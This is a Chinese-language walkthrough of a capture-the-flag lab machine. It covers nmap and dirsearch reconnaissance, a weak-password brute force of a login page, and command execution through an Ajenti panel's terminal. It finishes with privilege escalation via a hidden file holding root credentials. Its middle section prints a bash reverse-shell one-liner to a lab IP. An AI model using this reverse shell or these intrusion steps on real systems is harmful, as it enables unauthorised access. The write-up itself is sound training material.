










```table-of-contents
```

# 信息收集

基本的信息收集、端口与服务的探测、基本脚本的测试
```bash
sudo nmap -e eth0 --min-rate 1000 -p- 192.168.69.137 -oA nmapscan/ports
Nmap scan report for 192.168.69.137
Host is up (0.00057s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt

sudo nmap -e eth0 -sT -sC -sV -O -p22,80,8000,99 192.168.69.137 -oA nmapscan/details
Nmap scan report for 192.168.69.137
Host is up (0.0014s latency).

PORT     STATE  SERVICE       VERSION
22/tcp   open   ssh           OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
80/tcp   open   http          Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Inspirational Quote
99/tcp   closed metagram
8000/tcp open   ssl/http-alt?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ajenti/organizationName=moban/countryName=NA
| Not valid before: 2026-04-19T11:49:37
|_Not valid after:  2036-04-16T11:49:37

```
基本的信息探测没有找到可直接利用的漏洞点（那就先从网站入手进行更加详细的收集与探测）


80的端口服务只有一个前端页面显示，8000端口没法直接访问（可能需要目录枚举）
可能的用户名：jiali

## 目录枚举

```bash
dirsearch -u http://192.168.69.137
Target: http://192.168.69.137/

[02:43:25] Starting: 
[02:43:26] 403 -  279B  - /.ht_wsr.txt                                      
[02:43:26] 403 -  279B  - /.htaccess.bak1                                   
[02:43:26] 403 -  279B  - /.htaccess.orig                                   
[02:43:26] 403 -  279B  - /.htaccess.save
[02:43:26] 403 -  279B  - /.htaccess.sample
[02:43:26] 403 -  279B  - /.htaccess_orig                                   
[02:43:26] 403 -  279B  - /.htaccess_extra                                  
[02:43:26] 403 -  279B  - /.htaccess_sc
[02:43:26] 403 -  279B  - /.htaccessBAK
[02:43:26] 403 -  279B  - /.htaccessOLD2
[02:43:26] 403 -  279B  - /.htaccessOLD
[02:43:26] 403 -  279B  - /.htm                                             
[02:43:26] 403 -  279B  - /.html
[02:43:26] 403 -  279B  - /.htpasswds                                       
[02:43:26] 403 -  279B  - /.htpasswd_test
[02:43:26] 403 -  279B  - /.httr-oauth                                      
[02:43:27] 403 -  279B  - /.php                                             
[02:43:45] 200 -  621B  - /login.php                                        
[02:43:52] 403 -  279B  - /server-status/                                   
[02:43:52] 403 -  279B  - /server-status

dirsearch -u http://192.168.69.137:8000
There was a problem in the request to: http://192.168.69.137:8000/
```
80端口存在login.php，8000端口的请求出来问题（先暂时放一下）


页面很简单，那就尝试一下弱口令爆破吧

看来弱口令爆破成功了
80端口凭据：jiali:qweasdzxc
但是尝试80端口进行登录并没有跳转到其他页面或返回其他内容
而对于该凭据的使用还需要想到是否是SSH凭据（先尝试一下） --> 尝试了一下发现也不行
最直接的两个都不行，那么就差8000端口的服务了

### 8000端口的探测

为了方便直接获得详细内容使用curl进行访问
```bash
curl http://192.168.69.137:8000
curl: (56) Recv failure: Connection reset by peer
# 显示 接收失败：对等方重置连接
curl -v http://192.168.69.137:8000 # 添加 -v 参数，输出整个通信过程 
*   Trying 192.168.69.137:8000...
* Established connection to 192.168.69.137 (192.168.69.137 port 8000) from 192.168.69.128 port 47548 
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 192.168.69.137:8000
> User-Agent: curl/8.19.0
> Accept: */*
> 
* Request completely sent off
* Recv failure: Connection reset by peer
* closing connection #0
curl: (56) Recv failure: Connection reset by peer
# 依旧存在 接收失败：对等方重置连接，那么就需要考虑请求不对还是存在防火墙等进行了拦截过滤
# 那就先手动一一尝试吧！
# 经过使用POST请求，换成https进行尝试
# 发现使用https请求是可以的
curl -kv https://192.168.69.137:8000/ # -k 参数跳过SSL（单独-v有SSL提醒）
*   Trying 192.168.69.137:8000...
* ALPN: curl offers h2,http/1.1
* TLSv1.3 (OUT), TLS handshake, Client hello (1):
* SSL Trust: peer verification disabled
* TLSv1.3 (IN), TLS handshake, Server hello (2):
* TLSv1.3 (IN), TLS change cipher, Change cipher spec (1):
* TLSv1.3 (IN), TLS handshake, Encrypted Extensions (8):
* TLSv1.3 (IN), TLS handshake, Certificate (11):
* TLSv1.3 (IN), TLS handshake, CERT verify (15):
* TLSv1.3 (IN), TLS handshake, Finished (20):
* TLSv1.3 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.3 (OUT), TLS handshake, Finished (20):
* SSL connection using TLSv1.3 / TLS_AES_256_GCM_SHA384 / x25519 / RSASSA-PSS
* ALPN: server did not agree on a protocol. Uses default.
* Server certificate:
*   subject: C=NA; O=moban; CN=ajenti
*   start date: Apr 19 11:49:37 2026 GMT
*   expire date: Apr 16 11:49:37 2036 GMT
*   issuer: C=NA; O=moban; CN=ajenti
*   Certificate level 0: Public key type RSA (4096/152 Bits/secBits), signed using sha256WithRSAEncryption
* OpenSSL verify result: 12
*  SSL certificate verification failed, continuing anyway!
* Established connection to 192.168.69.137 (192.168.69.137 port 8000) from 192.168.69.128 port 53498 
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 192.168.69.137:8000
> User-Agent: curl/8.19.0
> Accept: */*
> 
* Request completely sent off
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
< HTTP/1.1 302 Found
< X-Auth-Identity: 
< Location: /view/login/normal
< X-Worker-Name: restricted session
< X-Frame-Options: SAMEORIGIN
< Content-Security-Policy: frame-ancestors 'self';
< Date: Thu, 04 Jun 2026 07:05:35 GMT
< Content-Length: 0
< 
* Connection #0 to host 192.168.69.137:8000 left intact

```
通过分析，找到了Location: /view/login/normal


成功登录了 Ajent 面板（通过搜索了一下Ajent的公开漏洞，并未找到有用的信息）

### 初始立足点

通过研究Ajent面板的功能，找到了一个Terminal的功能
经过尝试它可以执行一些命令！


成功拿到了User_Flag，但是交互并不理想（得想办法提升交互）

通过`bash -c 'bash -i >& /dev/tcp/192.168.69.128/4444 0>&1'`
成功反弹Shell

# 提权

经过对一下可能泄露的重要信息的文件或目录进行浏览
发现在`/var/www/`目录下存在一个`...`的文件

但是当前用户是没法读取的（只能通过属主的**www-data**进行读取），那就先放一下，找一找能不能通过**www-data**之手写一个读取该文件脚本


继续深入，发现存在一个**jiali_home**目录是可读可写的

那就通过在**jiali_home**目录下写一个读取文件的脚本进行读取吧！
反弹的shell交互不好，那就用8000端口服务自带的File Manager进行编写



直接出现的就是root的凭据吗？


看来是的！

# 扩展

其他大佬通过内核也成功进行了提权（使用的是： Copy Fail）


# 小结

这台靶机还是很简单的，主要考的是信息收集能力
很多时候由于需要操作的内容太多，管理员会为了方便将一些可能使用的凭据进行保存，因此导致重要的信息凭据泄露

**整体思路**：基本的信息收集 - 80端口的弱口令爆破 - 8000端口的正确请求尝试 - 特殊文件的权限等收集（这里推荐一个可以练习的网站：[OverTheWire: Wargames](https://overthewire.org/wargames/)）